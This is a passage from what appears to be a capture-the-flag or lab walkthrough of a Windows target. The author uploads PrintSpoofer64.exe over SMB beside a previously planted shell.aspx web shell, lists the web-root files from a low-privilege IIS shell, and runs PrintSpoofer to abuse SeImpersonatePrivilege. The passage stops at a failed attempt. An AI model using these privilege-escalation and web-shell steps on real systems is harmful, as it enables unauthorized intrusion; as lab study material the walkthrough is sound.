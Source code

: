 I then upload the **PrintSpoofer64.exe** file to the SMB share so we can retrieve it on the target system and run it in our shell.

```
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (83.9 kb/s) (average 53.8 kb/s)
smb: \> dir
  .                                   D        0  Mon Feb  7 01:14:24 2022
  ..                                  D        0  Mon Feb  7 01:14:24 2022
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  PrintSpoofer64.exe                  A    27136  Mon Feb  7 01:14:24 2022
  shell.aspx                          A     3406  Mon Feb  7 01:10:55 2022

                7735807 blocks of size 4096. 4949954 blocks available
```

You can find the files locoated in the **inetpub\wwwroot\nt4wrksv** directory:

```
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

02/06/2022  10:14 PM    <DIR>          .
02/06/2022  10:14 PM    <DIR>          ..
07/25/2020  07:15 AM                98 passwords.txt
02/06/2022  10:14 PM            27,136 PrintSpoofer64.exe
02/06/2022  10:10 PM             3,406 shell.aspx
               3 File(s)         30,640 bytes
               2 Dir(s)  20,275,011,584 bytes free
```

I found instructions for running the **PrintSpoofer64** command here:

[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

Running the command they specified did not work however.

`PrintSpoofer64.exe -i -c powershell`

```
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c powershell
PrintSpoofer64.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out.

c:\inetpub\wwwroot\nt4wrksv>whoami
whoami
iis apppool\defaultapppool
```

I was able to get this working by using **cmd** instead of **powershell**:
